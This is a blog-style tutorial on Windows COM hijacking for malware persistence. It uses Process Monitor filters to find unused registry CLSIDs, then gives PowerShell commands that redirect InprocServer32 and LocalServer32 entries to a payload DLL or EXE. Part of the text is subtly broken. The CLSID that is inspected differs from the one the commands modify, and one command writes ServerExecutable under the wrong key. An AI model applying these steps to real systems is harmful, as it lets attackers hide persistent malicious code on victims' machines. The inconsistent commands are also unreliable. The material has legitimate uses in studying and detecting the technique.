 ```yaml
---
layout: post
title: COM Hijacking
date: 2023-12-22
categories: [Malware Development, Persistence]
tags: [persistence]     
---
```


> COM is a system within Windows to enable interaction between software components through the operating system. 
  References to various COM objects are stored in the Registry

- [MITRE](https://attack.mitre.org/techniques/T1546/015/)

We can establish persistence through COM by hijacking a COM object. When the tampered object is referenced, our payload will be executed in place of the original software component. Hijacking COM objects that are in use can lead to broken applications, so we should look for applications that try to reference broken/unused keys.

To achieve this we can use Process Monitor from the SysInternal suite. Apply these filters

- Operation -> is -> RegOpenKey
    
>   RegOpenKey opens the specified registry key. We use this filter because COM objects are stored in the registry

- Result -> is -> NAME NOT FOUND

>   We use this filter because we don't want to hijack COM objects that are in use

- Path -> ends with -> InprocServer32

>   This registry contains a 32-bit in-process server. In this context, that means a DLL that provides services to other applications

- Path -> ends with -> LocalServer32

>   This registry contains the full path to a COM server application. This means that we can specify the path to an executable which we want executed

Now we will be able to see every process activity that meets this critera. To speed things up, we can open random applications (like Access, Outlook and so on). We should look for an object that is not referenced very frequently, as executing the payload every second is not a good idea.

> EDR solutions could detect this. For [example](https://www.elastic.co/guide/en/security/8.11/component-object-model-hijacking.html) {: .prompt-warning }

#### Example 1 - InprocServer32

Let's take for example this COM object, with the CLSID `{4590F811-1D3A-11D0-891F-00AA004B2E24}` (The CLSID is an unique identifier for COM class objects)

```
HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\InprocServer32
```

Let's check it's contents

```
Get-Item -Path "HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\InprocServer32"

Name                           Property
----                           --------
InprocServer32                 (default)      : C:\Windows\System32\thumbcache.dll
                               ThreadingModel : Apartment
```

If we can change the value of `(default)` from `C:\Windows\System32\thumbcache.dll` to our payload, persistence is succesfully established.

```PowerShell
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Path\To\payload.dll"
```
We also need to change the threading model to support both single threaded and multi-threaded mode.

```PowerShell
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

After we are done, we should delete the registry entry and DLL.

#### Example 2 - LocalServer32

We will consider an object with the same CLSID

```
HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\LocalServer32
```

Now the contents will be something to the likes of

```
Get-Item -Path "HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\LocalServer32"

Name                           Property
----                           --------
Localerver32                   (default)      : C:\Program Files\Microsoft Office\Office14\EXCEL.EXE
                               ServerExecutable : "C:\Program Files\Microsoft Office\Office14\EXCEL.EXE"
```

In this case we have to change the value of `(default)` and `ServerExecutable` to our payload, in PE format.

```powershell
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "LocalServer32" -Value "C:\Path\To\payload.exe"
```

```powershell
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ServerExecutable" -Value "C:\Path\To\payload.exe"
```

To clean up, delete the executable and the registry entry.
